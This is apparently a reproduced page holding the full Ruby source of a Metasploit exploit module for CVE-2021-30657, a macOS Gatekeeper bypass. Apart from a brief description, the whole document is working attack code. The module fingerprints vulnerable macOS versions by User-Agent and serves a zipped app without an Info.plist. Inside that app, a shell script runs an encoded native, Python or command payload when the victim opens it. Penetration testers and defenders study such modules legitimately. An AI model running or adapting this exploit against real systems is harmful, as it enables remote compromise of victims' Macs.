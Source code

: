 INFO
----

    This Metasploit module serves an OSX app (as a zip) that contains no Info.plist, which bypasses gatekeeper in macOS versions prior to 11.3. If the user visits the site on Safari, the zip file is automatically extracted, and clicking on the downloaded file will automatically launch the payload. If the user visits the site in another browser, the user must click once to unzip the app, and click again in order to execute the payload.

EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ManualRanking

      include Msf::Exploit::EXE
      include Msf::Exploit::Remote::HttpServer

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'macOS Gatekeeper check bypass',
            'Description' => %q{
              This module serves an OSX app (as a zip) that contains no Info.plist, which
              bypasses gatekeeper in macOS < 11.3.
              If the user visits the site on Safari, the zip file is automatically extracted,
              and clicking on the downloaded file will automatically launch the payload.
              If the user visits the site in another browser, the user must click once to unzip
              the app, and click again in order to execute the payload.
            },
            'License' => MSF_LICENSE,
            'Targets' => [
              [ 'macOS x64 (Native Payload)', { 'Arch' => ARCH_X64, 'Platform' => [ 'osx' ] } ],
              [ 'Python payload', { 'Arch' => ARCH_PYTHON, 'Platform' => [ 'python' ] } ],
              [ 'Command payload', { 'Arch' => ARCH_CMD, 'Platform' => [ 'unix' ] } ],
            ],
            'DefaultTarget' => 0,
            'DisclosureDate' => '2021-03-25',
            'Author' => [
              'Cedric Owens', # Discovery
              'timwr' # Module
            ],
            'Notes' =>
            {
              'Stability' => [ CRASH_SAFE ],
              'Reliability' => [ REPEATABLE_SESSION ],
              'SideEffects' => [ IOC_IN_LOGS, ARTIFACTS_ON_DISK ]
            },
            'References' => [
              ['CVE', '2021-30657'],
              ['URL', 'https://cedowens.medium.com/macos-gatekeeper-bypass-2021-edition-5256a2955508'],
              ['URL', 'https://objective-see.com/blog/blog_0x64.html'],
            ]
          )
        )
        register_options([
          OptString.new('APP_NAME', [false, 'The application name (Default: app)', 'app'])
        ])
      end

      def check_useragent(user_agent)
        return false unless user_agent =~ /Intel Mac OS X (.*?)\)/

        osx_version = Regexp.last_match(1).gsub('_', '.')
        mac_osx_version = Rex::Version.new(osx_version)
        if mac_osx_version >= Rex::Version.new('11.3')
          print_warning "macOS version #{mac_osx_version} is not vulnerable"
        elsif mac_osx_version < Rex::Version.new('10.15.6')
          print_warning "macOS version #{mac_osx_version} is not vulnerable"
        else
          print_good "macOS version #{mac_osx_version} is vulnerable"
          return true
        end
        return false
      end

      def on_request_uri(cli, request)
        user_agent = request['User-Agent']
        print_status("Request #{request.uri} from #{user_agent}")
        unless check_useragent(user_agent)
          print_error 'Unexpected User-Agent'
          send_not_found(cli)
          return
        end

        app_name = datastore['APP_NAME'] || Rex::Text.rand_text_alpha(5)
        send_response(cli, app_zip(app_name), { 'Content-Type' => 'application/zip', 'Content-Disposition' => "attachment; filename=\"#{app_name}.zip\"" })
      end

      def app_zip(app_name)
        case target['Arch']
        when ARCH_X64
          payload_data = Msf::Util::EXE.to_python_reflection(framework, ARCH_X64, payload.encoded, {})
          command = "echo \"#{payload_data}\" | python & disown"
        when ARCH_PYTHON
          command = "echo \"#{payload.encoded}\" | python"
        when ARCH_CMD
          command = payload.encoded
        end

        shell_script = <<~SCRIPT
          #!/bin/sh

          #{command}
        SCRIPT

        zip = Rex::Zip::Archive.new
        zip.add_file("#{app_name}.app/", '')
        zip.add_file("#{app_name}.app/Contents/", '')
        zip.add_file("#{app_name}.app/Contents/MacOS/", '')
        zip.add_file("#{app_name}.app/Contents/MacOS/#{app_name}", shell_script).last.attrs = 0o777
        zip.pack
      end
    end